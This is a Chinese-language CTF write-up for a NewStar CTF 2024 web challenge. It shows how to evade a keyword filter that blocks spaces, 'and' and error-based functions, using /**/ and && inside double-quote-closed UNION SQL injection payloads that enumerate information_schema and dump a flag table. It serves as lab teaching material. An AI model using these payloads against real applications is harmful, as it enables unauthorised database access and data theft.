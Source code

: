 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# 谢谢皮蛋 plus

同样还是联合注入，意在考查空格和 `and` 的绕过，为了避免直接使用报错注入得到 flag，将报错注入 ban 了

```php
preg_match_all("/ |extractvalue|updataxml|and/i",$id)
```

值得注意的一个点是，这题是双引号闭合，如果没有细心的检查会误以为是单引号闭合

![注意引号的闭合种类](/assets/images/wp/2024/week2/pidan-plus_1.png)

双引号中带有单引号也可以执行成功，属于 MySQL 的一种特性，可以自行尝试一下

![双引号中带有单引号也可以执行成功](/assets/images/wp/2024/week2/pidan-plus_2.png)

`and` 使用 `&&` 替换，空格使用 `/**/` 替换，其他就是一样的操作了

查询当前数据库

```sql
-1"/**/union/**/select/**/1,database()#
```

查询所有表名

```sql
-1"/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/database()#
```

查询所有列名

```sql
-1"/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/=/**/'Fl4g'/**/&&/**/table_schema/**/=/**/database()#
```

得到flag

```sql
-1"/**/union/**/select/**/group_concat(des),group_concat(value)/**/from/**/Fl4g#
```
